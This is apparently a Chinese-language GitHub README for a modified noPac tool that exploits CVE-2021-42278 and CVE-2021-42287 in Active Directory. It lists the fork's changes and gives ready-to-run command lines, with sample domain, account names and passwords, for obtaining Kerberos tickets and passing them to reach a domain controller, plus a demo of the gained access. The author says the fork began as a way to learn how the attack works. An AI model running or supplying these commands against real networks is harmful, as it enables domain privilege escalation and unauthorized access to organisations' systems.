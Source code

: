 # noPac

这个项目的由来是出于对 noPac 的原理学习, 在 [cube0x0](https://github.com/cube0x0/noPac) 的项目基础上进行了一些更改. 源码中添加了个人的理解注释.

- 删除了 Scan 功能, 个人觉得 Scan 功能用处比较鸡肋.
- 增加了 MachineAccountQuota 值的判断, 如果为 0 则退出程序.
- 优化了添加计算机帐户时的判断处理.
- 增加了 TGT 的输出.

## 利用条件

noPac 是 CVE-2021-42278 (sAMAccountName spoofing) & CVE-2021-42287 (deceiving the KDC) 两个漏洞的组合利用, 只有同时满足这两个漏洞的利用条件才能成功利用.

## 使用方法

```
Examples: Get TGT and ST

  noPac.exe /domain DomainName /dc DomainController /mAccount MachineAccount /mPassword MachineAccountPassword /user DomainUser /pass DomainUserPassword

  noPac.exe /domain missyou.com /dc dc.missyou.com /mAccount test1b$ /mPassword "TesT1b13!#@" /user wanglei /pass wanglei

  noPac.exe /domain DomainName /dc DomainController /mAccount MachineAccount /mPassword MachineAccountPassword /user DomainUser /pass DomainUserPassword /service altservice

  noPac.exe /domain missyou.com /dc dc.missyou.com /mAccount test1b$ /mPassword "TesT1b13!#@" /user wanglei /pass wanglei /service cifs

Examples: PTT

  noPac.exe /domain DomainName /dc DomainController /mAccount MachineAccount /mPassword MachineAccountPassword /user DomainUser /pass DomainUserPassword /service altservice /ptt

  noPac.exe /domain missyou.com /dc dc.missyou.com /mAccount test1b$ /mPassword "TesT1b13!#@" /user wanglei /pass wanglei /service cifs /ptt

  noPac.exe /domain missyou.com /dc dc.missyou.com /mAccount test1b /mPassword "TesT1b13!#@" /user wanglei /pass wanglei /service cifs /ptt
```

比较常用的方法是 PTT:

```PowerShell
noPac.exe /domain missyou.com /dc dc.missyou.com /mAccount test1b$ /mPassword "TesT1b13!#@" /user wanglei /pass wanglei /service cifs /ptt
```

## Demo

利用 noPac 前无权访问 DC.

![](images/Pasted%20image%2020221222145605.png)

利用 noPac.

```PowerShell
noPac.exe /domain missyou.com /dc dc.missyou.com /mAccount test1b$ /mPassword "TesT1b13!#@" /user wanglei /pass wanglei /service cifs /ptt
```

![](images/Pasted%20image%2020221222145709.png)

PTT 后在当前窗口再次访问 DC 即可成功访问.

![](images/Pasted%20image%2020221222145734.png)

## 利用环境

注意程序只能运行在 .NET 4.0+ 环境的机器上, Windows Server 2012 默认带 .NET 4.0, Windows Server 2008 默认带 .NET 3.5

查看机器上存在的 .NET 版本

```PowerShell
dir c:\Windows\Microsoft.NET\Framework64
```

![](images/Pasted%20image%2020221222151109.png)